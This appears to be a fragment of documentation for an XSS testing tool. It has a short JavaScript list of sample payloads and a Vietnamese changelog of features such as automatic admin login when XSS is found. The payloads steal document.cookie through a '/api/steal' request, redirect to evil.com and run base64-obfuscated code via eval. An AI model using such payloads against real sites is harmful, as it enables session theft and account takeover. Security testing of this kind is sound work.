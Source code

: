 ```javascript
// User-defined XSS payloads
const customPayloads = [
    'fetch("/api/steal?cookie="+document.cookie)',
    'document.location="http://evil.com"',
    'eval(atob("YWxlcnQoMSk="))',
];
```

---

**Version:** 1.4.0  
**Date:** 2025-01-16  
**Features:**

-   🌐 Chrome Auto-Login khi phát hiện XSS
-   🔐 Tự động đăng nhập admin
-   📸 Screenshot tự động
-   🛡️ Error handling và graceful shutdown
-   🎯 Real JavaScript execution
-   📚 Educational documentation
